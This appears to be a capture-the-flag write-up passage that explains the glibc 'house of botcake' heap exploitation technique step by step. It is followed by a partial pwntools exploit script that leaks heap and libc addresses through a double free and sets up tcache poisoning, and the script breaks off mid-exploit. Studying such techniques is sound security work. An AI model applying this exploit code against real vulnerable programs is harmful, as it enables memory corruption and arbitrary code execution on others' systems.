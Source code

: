 
## House of botcake for the win

The house of botcake is very easy to understand, it is useful when you can trigger some double free bug. It is basically:

- Allocate 7 0x100 sized chunks to then fill the tcache (7 entries).
- Allocate two more 0x100 sized chunks (prev and a in the example).
- Allocate a small “barrier” 0x10 sized chunk.
- Fill the tcache by freeing the first 7 chunks.
- free(a), thus a falls into the unsortedbin.
- free(prev), thus prev is consolidated with a to create a large 0x221 sized chunk that is remains in the unsortedbin.
- Request one more 0x100 sized chunk to let a single entry available in the tcache.
- free(a) again, given a is part of the large 0x221 sized chunk it leads to an UAF. Thus a falls into the tcache.
- That’s finished, to get a write what where we just need to request a 0x130 sized chunk. Thus we can hiijack the next fp of a that is currently referenced by the tcache by the location we wanna write to. And next time two 0x100 sized chunks are requested, the second one will be the target location.

Which gives:
```py
for i in range(7):
    add(i, 0x100, b"")

# leak

free(0)
view(0)

heap = ((pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) << 12) - 0x2000)
pwn.log.info(f"heap @ {hex(heap)}")

add(0, 0x100, b"YY")

add(7, 0x100, b"YY") # prev
add(8, 0x100, b"YY") # a

# fill tcache
for i in range(7):
    free(i)

for _ in range(20):
    add(9, 0x10, b"/bin/sh\0") # barrier

free(8) # free(a) => unsortedbin
free(7) # free(prev) => merged with a

# leak libc
view(8)

libc.address = pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) - 0x219ce0 # offset of the unsorted bin
pwn.log.success(f"libc: {hex(libc.address)}")

stdout = libc.address + 0x21a780
environ = libc.address + 0x2a72d0 + 8
strr = libc.address + 0x1bd460

pwn.log.success(f"environ: {hex(environ)}")
pwn.log.success(f"stdout: {hex(stdout)}")

add(0, 0x100, b"YY") # pop a chunk from the tcache to let an entry left to a 
```